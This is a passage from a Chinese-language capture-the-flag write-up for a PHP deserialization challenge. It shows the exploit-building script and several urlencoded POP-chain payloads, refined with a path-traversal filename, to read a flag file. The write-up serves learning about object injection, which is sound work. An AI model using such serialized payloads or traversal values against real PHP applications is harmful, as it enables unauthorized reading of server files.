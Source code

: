 ```php
            return $this->cinder->echo_name();      
    }  
}  

class ace
{    
    public $filename='flag.php';     
    public $openstack;
    public $docker=null; 
}  
$a=new acp();
echo urlencode(serialize($a));
?>
```

运行得到pop链

```php
O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
```

传参后发生页面跳转 查看源代码发现flag在/nssctfasdasdflag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737551887523-0c98a49f-87e2-4385-a3a9-e323552f40f3.png)

修改filename=/nssctfasdasdflag 得到pop链

```php
O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A17%3A%22%2Fnssctfasdasdflag%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
```

上传后发现文件路径可能不对 于是搜索下一级

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737552004013-504b7133-75fe-48f6-8c0f-f059b007db28.png)

修改为

```php
filename='/../nssctfasdasdflag'
```

接着得到pop链

```php
O%3A3%3A%22acp%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00cinder%22%3BO%3A3%3A%22ace%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A20%3A%22%2F..%2Fnssctfasdasdflag%22%3Bs%3A9%3A%22openstack%22%3BN%3Bs%3A6%3A%22docker%22%3BN%3B%7Ds%3A7%3A%22neutron%22%3BN%3Bs%3A4%3A%22nova%22%3BN%3B%7D
```

得到flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737552112098-59bd2d14-ceea-4bc7-bd08-37a9f0f794e4.png)

